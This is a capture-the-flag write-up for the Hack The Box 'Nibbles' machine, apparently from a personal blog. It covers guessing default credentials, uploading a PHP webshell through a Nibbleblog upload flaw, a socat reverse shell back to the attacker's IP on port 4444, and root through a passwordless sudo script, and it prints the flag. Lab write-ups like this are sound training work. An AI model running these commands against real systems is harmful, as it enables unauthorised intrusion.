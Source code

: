 ```yaml
---
layout: single
title: Nibbles Writeup
date: '2019-12-18 17:10:00'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2019-12-18-nibbles-writeup/valentine-nibbles.png
    text: "https://app.hackthebox.eu/machines/127"
typora-copy-images-to: ../images/posts/2019/${filename}/
---
```


## Enumeration

The usual Autorecon enumeration turned up ports 80 & 22 open. Taking a look at the webserver running on port 80 revealed a Hello World page but looking at the source showed an interesting comment:



![Screenshot-from-2019-12-18-10-53-06](C:\Users\ICart\Documents\home-git\achillean00.github.io\docs\images\posts\2019\2019-12-18-nibbles-writeup\Screenshot-from-2019-12-18-10-53-06-16283622337001.png)

Going to /nibbleblog we an see that it's running an instance of the [Nibbleblog](http://www.nibbleblog.com/) software.

A search on ExploitDB lists an file upload [vulnerability](https://www.exploit-db.com/exploits/38489) but we need a username and password. I spent a while hunting around before trying `admin/nibbles` which worked. I'm not a big fan of password guessing like this, but I guess it is realistic!

## Initial Exploitation

Following the PoC [here](http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html) I first grabbed a PHP Webshell. I choose [php33r](https://www.fuzzysecurity.com/scripts/16.html) as I hadn't used it before and it looked pretty neat.

I uploaded the file as detailed and then visited the location and I indeed had a webshell on the server:

<figure class="kg-card kg-image-card"><img src="/content/images/2019/12/Screenshot-from-2019-12-18-11-02-14.png" class="kg-image"></figure>

I had a quick look around and it turned out to be easy to grab user.txt

<figure class="kg-card kg-image-card"><img src="/content/images/2019/12/Screenshot-from-2019-12-18-11-04-19.png" class="kg-image"></figure>
## Privilege Escalation

I noticed the `personal.zip` file in the home directory so I copied this to a location that was accessible from the web and downloaded it to my Kali box. Extracting it revealed the following structure, and monitor.sh seemed to be a system monitoring script, which wasn't a lot of use at the moment.

    personal
    └── stuff
        └── monitor.sh
    
    1 directory, 1 file

At this point I decided I wanted a proper shell rather than having to interact with the webshell. The webshell had the ability to upload files, so I uploaded my local copy of `socat` and did a `chmod u+x socat` at the remote end to make it exectuable.

I ran the listener on my Kali box with:

    socat file:`tty`,raw,echo=0 tcp-listen:4444  

and then used the webshell to run

    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.4:4444  

This allowed me to catch a full tty enabled shell.

At this point I tried `sudo -l` but this seemed to hang. I went on and tried other things, before just being more patient and actually getting a response as a lookup for the box name was timing out.

This revealed that the nibbler account could run `/home/nibbler/personal/stuff/monitor.sh​` as root with no password. Creating a quick script with `/bin/bash -i` in it and then running with `sudo /home/nibbler/personal/stuff/monitor.sh` we get a root shell and can grab the flag `b6d745c0dfb6457c55591efc898ef88c`

